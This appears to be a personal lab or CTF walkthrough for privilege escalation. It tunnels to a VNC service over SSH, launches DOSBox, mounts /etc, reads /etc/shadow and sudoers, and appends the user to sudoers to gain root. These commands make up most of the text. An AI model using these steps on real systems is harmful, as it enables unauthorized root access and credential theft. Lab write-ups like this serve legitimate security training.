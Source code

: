 #### VNC to DosBox

```bash - linux
netstat -tulpn
```

Look for VNC service:
![[Pasted image 20220404105411.png]]

We see VNC on port 5901.  Let's use port forwarding to access.
Kali:
```bash - kali
ssh -L 5901:localhost:5901 commander@$TARGET
```

Kali:
```bash - kali
vncviewer localhost:5901
```

![[Pasted image 20220404105810.png]]

Now we can open terminal in vncviewer and run dosbox:
```bash - target
dosbox
```

Let's mount the /etc directory to C:

```dosbox - target
mount C /etc
```

Change to the C drive:
```dosbox - target
C:
```

Check to see if you can read a high privileged file (shadow):
```dosbox - target
type shadow
```

```dosbox - target
type sudoers
```

Let's put our current user into the sudoers file:
```dosbox - target
echo <USER> ALL=(ALL) ALL >> sudoers
```

![[Pasted image 20220404120322.png]]

Now back in target terminal:
```bash - target
sudo -i
```

![[Pasted image 20220404120222.png]]

